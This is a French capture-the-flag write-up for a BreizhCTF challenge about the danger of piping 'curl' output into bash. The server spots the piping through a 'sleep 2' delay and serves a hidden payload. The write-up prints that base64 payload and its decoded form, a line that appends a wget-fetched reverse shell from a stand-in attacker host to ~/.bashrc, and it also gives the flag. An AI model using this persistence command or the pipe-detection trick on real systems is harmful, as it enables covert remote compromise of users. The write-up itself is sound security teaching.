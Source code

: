 # Solve

Il faut voir dans le challenge que le site agit différement si on arrive avec curl ou wget.

Par ailleurs, il faut voir aussi que quand on est pipé dans bash, le serveur arrive à le déterminer grâce au `sleep 2`, et dans ces cas là envoi la payload.

Pour voir cela, il est possible de démarrer un docker ubuntu et d'installer curl.

On exécute ensuite la commande `curl https://dockerinstall.ctf.bzh | bash`, pour voir le traffic on peut utiliser wireshark, et on voit que dans le script de réponse il y a une payload en base64 :

```sh
[...]
echo "ZWNobyAid2dldCBodHRwczovL2F0dGFja2VyLmJyZWl6aGN0Zi9yZXZlcnNlX3NoZWxsIHwgYmFzaCIgPj4gfi8uYmFzaHJjCmVjaG8gIkJaSENURntiM19jNHIzZnVsX3doMWwzX3AxcDFuZ18xbl9iNHNofSIgPiAvZGV2L251bGw=" | base64 -d | bash
[...]
```

On déchiffre la base64 :

```
echo "wget https://attacker.breizhctf/reverse_shell | bash" >> ~/.bashrc
echo "BZHCTF{b3_c4r3ful_wh1l3_p1p1ng_1n_b4sh}" > /dev/null
```

# Flag

BZHCTF{b3_c4r3ful_wh1l3_p1p1ng_1n_b4sh}
